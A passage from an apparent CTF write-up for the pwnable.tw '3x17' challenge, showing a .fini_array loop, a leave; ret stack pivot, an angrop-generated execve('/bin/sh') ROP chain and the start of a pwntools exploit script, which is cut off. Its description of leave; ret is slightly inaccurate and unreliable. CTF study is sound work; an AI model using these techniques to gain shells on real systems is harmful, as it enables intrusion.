 ```c
gef➤  reg $rbp
$rbp   : 0x00000000004b40f0  →  0x0000000000401b00
```

This means that we can use the `leave; ret` gadget to pivot to the `.fini_array` section. Quick reminder that leave; ret = 
```mips
mov rsp, rbp + 8; 
pop rbp
ret
```
![Stack before and after the Leave gadget](/images/Leave.png)

### Creating a ROPchain
I just used [angrop](https://github.com/angr/angrop) to automatically generate a ROPchain that calls `execve('/bin/sh')`.
```python
import angr, angrop
p = angr.Project('./3x17')
rop = p.analyses.ROP()
rop.find_gadgets()
chain = rop.execve('/bin/sh', 0, 0)
chain.print_payload_code()
```

# Putting it all together
1. Create a loop that calls `main()` over and over again by overwriting the `.fini_array` section with the following:
    | fini_array[0] | fini_array[1] |
    | - | - |
    | 0x402960 (_dl_fini) | 0x0401b6d (main) |

2. Use this loop to write ropchain after `.fini_array[2]
3. Overwrite `.fini_array[0]` with a `leave; ret` gadget and `.fini_array[1]` with `ret` to trigger the ROPchain

## Exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or '3x17')
context.encoding = 'latin'
context.terminal = ['tmux', 'new-window']

host = args.HOST or 'chall.pwnable.tw'
port = int(args.PORT or 10105)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
```
